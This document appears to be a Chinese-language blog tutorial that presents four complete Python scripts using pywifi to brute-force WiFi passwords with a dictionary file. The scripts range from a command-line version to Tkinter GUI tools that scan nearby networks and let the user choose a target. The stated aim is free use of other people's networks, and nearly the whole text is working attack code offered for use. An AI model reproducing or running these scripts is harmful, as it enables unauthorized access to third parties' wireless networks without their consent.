





Python<br />通过 Python 脚本实现 WIFI 密码的暴力破解，从而实现免费蹭网。
<a name="NzZ6m"></a>
## 无图形界面
先来看看没有图形界面版的爆破脚本。
<a name="f7aMj"></a>
### WIFI爆破
```python
import pywifi
from pywifi import const
import time
import datetime


# 测试连接，返回链接结果
def wifiConnect(pwd):
    # 抓取网卡接口
    wifi = pywifi.PyWiFi()
    # 获取第一个无线网卡
    ifaces = wifi.interfaces()[0]
    # 断开所有连接
    ifaces.disconnect()
    time.sleep(1)
    wifistatus = ifaces.status()
    if wifistatus == const.IFACE_DISCONNECTED:
        # 创建WiFi连接文件
        profile = pywifi.Profile()
        # 要连接WiFi的名称
        profile.ssid = "Tr0e"
        # 网卡的开放状态
        profile.auth = const.AUTH_ALG_OPEN
        # wifi加密算法,一般wifi加密算法为wps
        profile.akm.append(const.AKM_TYPE_WPA2PSK)
        # 加密单元
        profile.cipher = const.CIPHER_TYPE_CCMP
        # 调用密码
        profile.key = pwd
        # 删除所有连接过的wifi文件
        ifaces.remove_all_network_profiles()
        # 设定新的连接文件
        tep_profile = ifaces.add_network_profile(profile)
        ifaces.connect(tep_profile)
        # wifi连接时间
        time.sleep(2)
        if ifaces.status() == const.IFACE_CONNECTED:
            return True
        else:
            return False
    else:
        print("已有wifi连接")


# 读取密码本
def readPassword():
    success = False
    print("****************** WIFI破解 ******************")
    # 密码本路径
    path = "pwd.txt"
    # 打开文件
    file = open(path, "r")
    start = datetime.datetime.now()
    while True:
        try:
            pwd = file.readline()
            # 去除密码的末尾换行符
            pwd = pwd.strip('\n')
            bool = wifiConnect(pwd)
            if bool:
                print("[*] 密码已破解：", pwd)
                print("[*] WiFi已自动连接！！！")
                success = True
                break
            else:
                # 跳出当前循环，进行下一次循环
                print("正在破解 SSID 为 %s 的 WIFI密码，当前校验的密码为：%s"%("Tr0e",pwd))
        except:
            continue
    end = datetime.datetime.now()
    if(success):
        print("[*] 本次破解WIFI密码一共用了多长时间：{}".format(end - start))
    else:
        print("[*] 很遗憾未能帮你破解出当前指定WIFI的密码，请更换密码字典后重新尝试！")
    exit(0)


if __name__=="__main__":
    readPassword()
```
代码运行效果：<br />
<a name="Jbgvr"></a>
### 脚本优化
以上脚本需内嵌 WIFI 名、爆破字典路径，缺少灵活性。下面进行改造优化：
```python
import pywifi
import time
from pywifi import const


# WiFi扫描模块
def wifi_scan():
    # 初始化wifi
    wifi = pywifi.PyWiFi()
    # 使用第一个无线网卡
    interface = wifi.interfaces()[0]
    # 开始扫描
    interface.scan()
    for i in range(4):
        time.sleep(1)
        print('\r扫描可用 WiFi 中，请稍后。。。（' + str(3 - i), end='）')
    print('\r扫描完成！\n' + '-' * 38)
    print('\r{:4}{:6}{}'.format('编号', '信号强度', 'wifi名'))
    # 扫描结果，scan_results()返回一个集，存放的是每个wifi对象
    bss = interface.scan_results()
    # 存放wifi名的集合
    wifi_name_set = set()
    for w in bss:
        # 解决乱码问题
        wifi_name_and_signal = (100 + w.signal, w.ssid.encode('raw_unicode_escape').decode('utf-8'))
        wifi_name_set.add(wifi_name_and_signal)
    # 存入列表并按信号排序
    wifi_name_list = list(wifi_name_set)
    wifi_name_list = sorted(wifi_name_list, key=lambda a: a[0], reverse=True)
    num = 0
    # 格式化输出
    while num < len(wifi_name_list):
        print('\r{:<6d}{:<8d}{}'.format(num, wifi_name_list[num][0], wifi_name_list[num][1]))
        num += 1
    print('-' * 38)
    # 返回wifi列表
    return wifi_name_list


# WIFI破解模块
def wifi_password_crack(wifi_name):
    # 字典路径
    wifi_dic_path = input("请输入本地用于WIFI暴力破解的密码字典（txt格式，每个密码占据1行）的路径：")
    with open(wifi_dic_path, 'r') as f:
        # 遍历密码
        for pwd in f:
            # 去除密码的末尾换行符
            pwd = pwd.strip('\n')
            # 创建wifi对象
            wifi = pywifi.PyWiFi()
            # 创建网卡对象，为第一个wifi网卡
            interface = wifi.interfaces()[0]
            # 断开所有wifi连接
            interface.disconnect()
            # 等待其断开
            while interface.status() == 4:
                # 当其处于连接状态时，利用循环等待其断开
                pass
            # 创建连接文件（对象）
            profile = pywifi.Profile()
            # wifi名称
            profile.ssid = wifi_name
            # 需要认证
            profile.auth = const.AUTH_ALG_OPEN
            # wifi默认加密算法
            profile.akm.append(const.AKM_TYPE_WPA2PSK)
            profile.cipher = const.CIPHER_TYPE_CCMP
            # wifi密码
            profile.key = pwd
            # 删除所有wifi连接文件
            interface.remove_all_network_profiles()
            # 设置新的wifi连接文件
            tmp_profile = interface.add_network_profile(profile)
            # 开始尝试连接
            interface.connect(tmp_profile)
            start_time = time.time()
            while time.time() - start_time < 1.5:
                # 接口状态为4代表连接成功（当尝试时间大于1.5秒之后则为错误密码，经测试测正确密码一般都在1.5秒内连接，若要提高准确性可以设置为2s或以上，相应暴力破解速度就会变慢）
                if interface.status() == 4:
                    print(f'\r连接成功！密码为：{pwd}')
                    exit(0)
                else:
                    print(f'\r正在利用密码 {pwd} 尝试破解。', end='')

# 主函数
def main():
    # 退出标致
    exit_flag = 0
    # 目标编号
    target_num = -1
    while not exit_flag:
        try:
            print('WiFi万能钥匙'.center(35, '-'))
            # 调用扫描模块，返回一个排序后的wifi列表
            wifi_list = wifi_scan()
            # 让用户选择要破解的wifi编号，并对用户输入的编号进行判断和异常处理
            choose_exit_flag = 0
            while not choose_exit_flag:
                try:
                    target_num = int(input('请选择你要尝试破解的wifi：'))
                    # 如果要选择的wifi编号在列表内，继续二次判断，否则重新输入
                    if target_num in range(len(wifi_list)):
                        # 二次确认
                        while not choose_exit_flag:
                            try:
                                choose = str(input(f'你选择要破解的WiFi名称是：{wifi_list[target_num][1]}，确定吗？（Y/N）'))
                                # 对用户输入进行小写处理，并判断
                                if choose.lower() == 'y':
                                    choose_exit_flag = 1
                                elif choose.lower() == 'n':
                                    break
                                # 处理用户其它字母输入
                                else:
                                    print('只能输入 Y/N 哦o(*￣︶￣*)o')
                            # 处理用户非字母输入
                            except ValueError:
                                print('只能输入 Y/N 哦o(*￣︶￣*)o')
                        # 退出破解
                        if choose_exit_flag == 1:
                            break
                        else:
                            print('请重新输入哦(*^▽^*)')
                except ValueError:
                    print('只能输入数字哦o(*￣︶￣*)o')
            # 密码破解，传入用户选择的wifi名称
            wifi_password_crack(wifi_list[target_num][1])
            print('-' * 38)
            exit_flag = 1
        except Exception as e:
            print(e)
            raise e


if __name__ == '__main__':
    main()
```
脚本运行效果如下：<br /><br />上述代码实现了依据信号强度枚举当前附近的所有 WIFI 名称，并且可供用户自主选择需要暴力破解的 WIFI，同时还可灵活指定暴力破解的字典，相对而言体验感提升了不少。进一步也可以将上述脚本打包生成 exe 文件。<br />双击运行效果如下：<br />
<a name="OvQz4"></a>
## 图形化界面
下面基于 Python 的 GUI 图形界面开发库 Tkinter 优化上述脚本，实现友好的可视化 WIFI 暴力破解界面工具。
<a name="j20wf"></a>
### 简单版UI
```python
from tkinter import *
from pywifi import const
import pywifi
import time


# 主要步骤：
# 1、获取第一个无线网卡
# 2、断开所有的wifi
# 3、读取密码本
# 4、设置睡眠时间
def wificonnect(str, wifiname):
    # 窗口无线对象
    wifi = pywifi.PyWiFi()
    # 抓取第一个无线网卡
    ifaces = wifi.interfaces()[0]
    # 断开所有的wifi
    ifaces.disconnect()
    time.sleep(1)
    if ifaces.status() == const.IFACE_DISCONNECTED:
        # 创建wifi连接文件
        profile = pywifi.Profile()
        profile.ssid = wifiname
        # wifi的加密算法
        profile.akm.append(const.AKM_TYPE_WPA2PSK)
        # wifi的密码
        profile.key = str
        # 网卡的开发
        profile.auth = const.AUTH_ALG_OPEN
        # 加密单元,这里需要写点加密单元否则无法连接
        profile.cipher = const.CIPHER_TYPE_CCMP
        # 删除所有的wifi文件
        ifaces.remove_all_network_profiles()
        # 设置新的连接文件
        tep_profile = ifaces.add_network_profile(profile)
        # 连接
        ifaces.connect(tep_profile)
        time.sleep(3)
        if ifaces.status() == const.IFACE_CONNECTED:
            return True
        else:
            return False


def readPwd():
    # 获取wiif名称
    wifiname = entry.get().strip()
    path = r'./pwd.txt'
    file = open(path, 'r')
    while True:
        try:
            # 读取
            mystr = file.readline().strip()
            # 测试连接
            bool = wificonnect(mystr, wifiname)
            if bool:
                text.insert(END, '密码正确' + mystr)
                text.see(END)
                text.update()
                file.close()
                break
            else:
                text.insert(END, '密码错误' + mystr)
                text.see(END)
                text.update()
        except:
            continue


# 创建窗口
root = Tk()
root.title('wifi破解')
root.geometry('500x400')
# 标签
label = Label(root, text='输入要破解的WIFI名称：')
# 定位
label.grid()
# 输入控件
entry = Entry(root, font=('微软雅黑', 14))
entry.grid(row=0, column=1)
# 列表控件
text = Listbox(root, font=('微软雅黑', 14), width=40, height=10)
text.grid(row=1, columnspan=2)
# 按钮
button = Button(root, text='开始破解', width=20, height=2, command=readPwd)
button.grid(row=2, columnspan=2)
# 显示窗口
root.mainloop()
```
脚本运行效果：<br />
<a name="zEgJY"></a>
### UI升级版
以上图形界面未允许选择密码字典，下面进行优化升级：
```python
from tkinter import *
from tkinter import ttk
import pywifi
from pywifi import const
import time
import tkinter.filedialog  # 在Gui中打开文件浏览
import tkinter.messagebox  # 打开tkiner的消息提醒框


class MY_GUI():
    def __init__(self, init_window_name):
        self.init_window_name = init_window_name
        # 密码文件路径
        self.get_value = StringVar()  # 设置可变内容
        # 获取破解wifi账号
        self.get_wifi_value = StringVar()
        # 获取wifi密码
        self.get_wifimm_value = StringVar()
        # 抓取网卡接口
        self.wifi = pywifi.PyWiFi()
        # 抓取第一个无线网卡
        self.iface = self.wifi.interfaces()[0]
        # 测试链接断开所有链接
        self.iface.disconnect()
        time.sleep(1)  # 休眠1秒
        # 测试网卡是否属于断开状态
        assert self.iface.status() in \
               [const.IFACE_DISCONNECTED, const.IFACE_INACTIVE]

    def __str__(self):
        # 自动会调用的函数，返回自身的网卡
        return '(WIFI:%s,%s)' % (self.wifi, self.iface.name())

    # 设置窗口
    def set_init_window(self):
        self.init_window_name.title("WIFI破解工具")
        self.init_window_name.geometry('+500+200')
        labelframe = LabelFrame(width=400, height=200, text="配置")  # 框架，以下对象都是对于labelframe中添加的
        labelframe.grid(column=0, row=0, padx=10, pady=10)
        self.search = Button(labelframe, text="搜索附近WiFi", command=self.scans_wifi_list).grid(column=0, row=0)
        self.pojie = Button(labelframe, text="开始破解", command=self.readPassWord).grid(column=1, row=0)
        self.label = Label(labelframe, text="目录路径：").grid(column=0, row=1)
        self.path = Entry(labelframe, width=12, textvariable=self.get_value).grid(column=1, row=1)
        self.file = Button(labelframe, text="添加密码文件目录", command=self.add_mm_file).grid(column=2, row=1)
        self.wifi_text = Label(labelframe, text="WiFi账号：").grid(column=0, row=2)
        self.wifi_input = Entry(labelframe, width=12, textvariable=self.get_wifi_value).grid(column=1, row=2)
        self.wifi_mm_text = Label(labelframe, text="WiFi密码：").grid(column=2, row=2)
        self.wifi_mm_input = Entry(labelframe, width=10, textvariable=self.get_wifimm_value).grid(column=3, row=2,sticky=W)
        self.wifi_labelframe = LabelFrame(text="wifi列表")
        self.wifi_labelframe.grid(column=0, row=3, columnspan=4, sticky=NSEW)
        # 定义树形结构与滚动条
        self.wifi_tree = ttk.Treeview(self.wifi_labelframe, show="headings", columns=("a", "b", "c", "d"))
        self.vbar = ttk.Scrollbar(self.wifi_labelframe, orient=VERTICAL, command=self.wifi_tree.yview)
        self.wifi_tree.configure(yscrollcommand=self.vbar.set)
        # 表格的标题
        self.wifi_tree.column("a", width=50, anchor="center")
        self.wifi_tree.column("b", width=100, anchor="center")
        self.wifi_tree.column("c", width=100, anchor="center")
        self.wifi_tree.column("d", width=100, anchor="center")
        self.wifi_tree.heading("a", text="WiFiID")
        self.wifi_tree.heading("b", text="SSID")
        self.wifi_tree.heading("c", text="BSSID")
        self.wifi_tree.heading("d", text="signal")
        self.wifi_tree.grid(row=4, column=0, sticky=NSEW)
        self.wifi_tree.bind("<Double-1>", self.onDBClick)
        self.vbar.grid(row=4, column=1, sticky=NS)

    # 搜索wifi
    def scans_wifi_list(self):  # 扫描周围wifi列表
        # 开始扫描
        print("^_^ 开始扫描附近wifi...")
        self.iface.scan()
        time.sleep(15)
        # 在若干秒后获取扫描结果
        scanres = self.iface.scan_results()
        # 统计附近被发现的热点数量
        nums = len(scanres)
        print("数量: %s" % (nums))
        # 实际数据
        self.show_scans_wifi_list(scanres)
        return scanres

    # 显示wifi列表
    def show_scans_wifi_list(self, scans_res):
        for index, wifi_info in enumerate(scans_res):
            self.wifi_tree.insert("", 'end', values=(index + 1, wifi_info.ssid, wifi_info.bssid, wifi_info.signal))

    # 添加密码文件目录
    def add_mm_file(self):
        self.filename = tkinter.filedialog.askopenfilename()
        self.get_value.set(self.filename)

    # Treeview绑定事件
    def onDBClick(self, event):
        self.sels = event.widget.selection()
        self.get_wifi_value.set(self.wifi_tree.item(self.sels, "values")[1])

    # 读取密码字典，进行匹配
    def readPassWord(self):
        self.getFilePath = self.get_value.get()
        self.get_wifissid = self.get_wifi_value.get()
        pwdfilehander = open(self.getFilePath, "r", errors="ignore")
        while True:
            try:
                self.pwdStr = pwdfilehander.readline()
                if not self.pwdStr:
                    break
                self.bool1 = self.connect(self.pwdStr, self.get_wifissid)
                if self.bool1:
                    self.res = "[*] 密码正确！wifi名：%s，匹配密码：%s " % (self.get_wifissid, self.pwdStr)
                    self.get_wifimm_value.set(self.pwdStr)
                    tkinter.messagebox.showinfo('提示', '破解成功！！！')
                    print(self.res)
                    break
                else:
                    self.res = "[*] 密码错误！wifi名:%s，匹配密码：%s" % (self.get_wifissid, self.pwdStr)
                    print(self.res)
                time.sleep(3)
            except:
                continue

    # 对wifi和密码进行匹配
    def connect(self, pwd_Str, wifi_ssid):
        # 创建wifi链接文件
        self.profile = pywifi.Profile()
        self.profile.ssid = wifi_ssid  # wifi名称
        self.profile.auth = const.AUTH_ALG_OPEN  # 网卡的开放
        self.profile.akm.append(const.AKM_TYPE_WPA2PSK)  # wifi加密算法
        self.profile.cipher = const.CIPHER_TYPE_CCMP  # 加密单元
        self.profile.key = pwd_Str  # 密码
        self.iface.remove_all_network_profiles()  # 删除所有的wifi文件
        self.tmp_profile = self.iface.add_network_profile(self.profile)  # 设定新的链接文件
        self.iface.connect(self.tmp_profile)  # 链接
        time.sleep(5)
        if self.iface.status() == const.IFACE_CONNECTED:  # 判断是否连接上
            isOK = True
        else:
            isOK = False
        self.iface.disconnect()  # 断开
        time.sleep(1)
        # 检查断开状态
        assert self.iface.status() in \
               [const.IFACE_DISCONNECTED, const.IFACE_INACTIVE]
        return isOK


def gui_start():
    init_window = Tk()
    ui = MY_GUI(init_window)
    print(ui)
    ui.set_init_window()
    init_window.mainloop()


if __name__ == "__main__":
    gui_start()
```
脚本运行效果如下：<br /><br />以上基于 Python 的 GUI 图形界面开发库 Tkinter，实际上 Python 的 GUI 编程可以借助 PyQt5来自动生成 UI 代码。
